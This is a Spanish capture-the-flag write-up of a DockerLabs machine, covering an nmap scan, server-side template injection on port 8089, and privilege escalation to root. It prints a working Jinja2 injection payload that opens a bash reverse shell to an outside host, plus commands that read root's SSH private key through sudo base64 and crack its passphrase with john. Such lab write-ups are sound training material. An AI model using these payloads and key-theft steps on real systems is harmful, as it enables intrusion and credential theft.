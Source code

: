 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c1763b0f-5d7f-44c1-a717-2723f62c30b2)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 9.2p1
2.  **80/tcp(HTTP):** Apache httpd 2.4.59
3. **8089/tcp(-)**: -
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a la página web de apache2 default.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/58823c23-3252-40ea-9587-a458f23d734a)

# Fase 2- Exploración

#### Unknow?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a972395b-a2b8-4953-bba0-e1184c2c7766)
Si vemos el resultado de escaneo de nmap nos dice que el puerto 8089 no sabe lo que es pero tiene GetRequest de http.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d7d4132d-d5d0-4aa4-8073-b3bef1e0ca73)

Y si vamos al buscador y ponemos la ip + puerto 8089, nos sale una pagina web.

#### Fuzzing

No encontramos nada.


# Fase 3- Explotación

#### 2 + 2¿?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8f3a5f3a-b70f-44cb-ae19-05644bc5c571)

Vamos a probar si es vulnerable a SSTI.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/500f4211-6be0-4aed-bcef-8583795ab032)

Y funciono, esta pagina web es vulnerable a SSTI.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ade2f9ea-9746-431e-9216-54e16aae7fc7)

Enviamos una reverse shell de `PayloadsAllTheThings` pero la modifique para que sea en vez de Python, bash ya que Python me daba problemas. El comando es:
```python
{% for x in ().__class__.__base__.__subclasses__() %} {% if "warning" in x.__name__ %} {{x()._module.__builtins__['__import__']('os').popen('bash -c "bash -i >& /dev/tcp/192.168.1.17/443 0>&1"').read().zfill(417)}} {% endif %} {% endfor %}
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d2c851e5-9641-4199-b091-736215a6c142)

Y funciono, nos llego la reverse shell.

# Fase 4- Privilegios

#### Sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/25d01d6c-d22a-4cff-81d7-96a8d3b4b340)

Al hacer un sudo -l podemos ejecutar el binario base64 como usuario root.

#### Gtfobins
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/05263bf7-da5a-4cb9-850a-4a77900e7690)

Nos permite file read usando el comando: 
```python
sudo base64 "$LFILE" | base64 --decode
```
Donde "$LFILE" es el archivo que queremos leer.

#### id_rsa
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a1debd70-4473-4e69-a071-6cd200cc5fac)
Así que lo usamos para leer el id_rsa del usuario root

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e9d3925c-7e8b-4702-ba56-1721467f7ab0)

Si intentamos entrar, no podemos porque nos pide una password. Así que intentaremos crackear con Jhon. Lista de comandos:
```python
ssh2john id_rsa > hash

john hash --wordlist=/usr/share/wordlist/rockyou.txt
```
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f9801082-597e-4ea9-ba10-6415c87a1a69)

Y nos encuentra la contraseña `honda1` .

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7f412942-2c55-4143-98b5-4d282b38f456)

Y ya seriamos usuario root!



